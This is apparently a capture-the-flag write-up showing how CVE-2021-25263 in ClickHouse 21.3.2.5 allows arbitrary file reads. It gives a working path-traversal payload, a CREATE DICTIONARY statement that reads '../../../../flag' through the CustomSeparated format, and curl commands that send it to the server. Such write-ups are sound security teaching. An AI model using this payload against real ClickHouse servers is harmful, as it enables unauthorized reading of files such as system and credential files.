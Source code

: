 # ReaCH me

## Vulnerability
CVE-2021-25263

## Exploitation
The challenge is limited to a single docker image of ClickHouse 21.3.2.5, with a flag in the root folder.
Looking at [ClickHouse security changelog](https://clickhouse.com/docs/en/whats-new/security-changelog), we find that our version is vulnerable to:
> CVE-2021-25263
> An attacker that has CREATE DICTIONARY privilege, can read arbitary file outside permitted directory.

An [exploit](https://250.ac.cn/2021/10/18/CVE-2021-25263) can be found online.

If not found, looking in ClickHouse repository, we find two issues talking about the CVE:
https://github.com/ClickHouse/ClickHouse/issues/26823
https://github.com/ClickHouse/ClickHouse/issues/28056

They both link to the commit that fixed the issue ([link](https://github.com/ClickHouse/ClickHouse/pull/22822)).

Before, when creating a dictionary, ClickHouse took the user input and ensured it starts with the user_files_path setting (by default: `/var/lib/clickhouse/user_files/`).
After the fix, the user input is transformed into an absolute path.

This fix hints that ClickHouse is subject to Local File Inclusion, using a user input like `/var/lib/clickhouse/user_files/../../../../etc/passwd`.

ClickHouse documentation explains how to [create a dictionary](https://clickhouse.com/docs/en/sql-reference/statements/create/dictionary#syntax), over a [local file](https://clickhouse.com/docs/en/sql-reference/dictionaries#local_file).

The main difficulty here is to find a suitable file format.
After trial and error, one format allow reading any kind of file on disk is `CustomSeparated`, specifying a separator.

In our case, that leads to:
```sql
CREATE DICTIONARY flag (
    id UInt64,
    incomplete_flag String DEFAULT ''
)
PRIMARY KEY id
SOURCE(FILE(PATH '/var/lib/clickhouse/user_files/../../../../flag' FORMAT 'CustomSeparated'))
LIFETIME(MIN 0 MAX 1000)
LAYOUT(FLAT())
SETTINGS(format_custom_field_delimiter = 'f', format_custom_row_after_delimiter = '')
```

We can then read the content of the dictionary using `SELECT * from flag`.

The following two commands summarises the exploit:
```bash
echo "CREATE DICTIONARY flag (id UInt64, incomplete_flag String DEFAULT '') PRIMARY KEY id SOURCE(FILE(PATH '/var/lib/clickhouse/user_files/../../../../flag' FORMAT 'CustomSeparated')) LIFETIME(MIN 0 MAX 1000) LAYOUT(FLAT()) SETTINGS(format_custom_field_delimiter = 'f', format_custom_row_after_delimiter = '')" | curl 'http://localhost:8123/' --data-binary @-
echo "SELECT * FROM flag" | curl 'http://localhost:8123/' --data-binary @-
```

## Fix
Upgrade ClickHouse
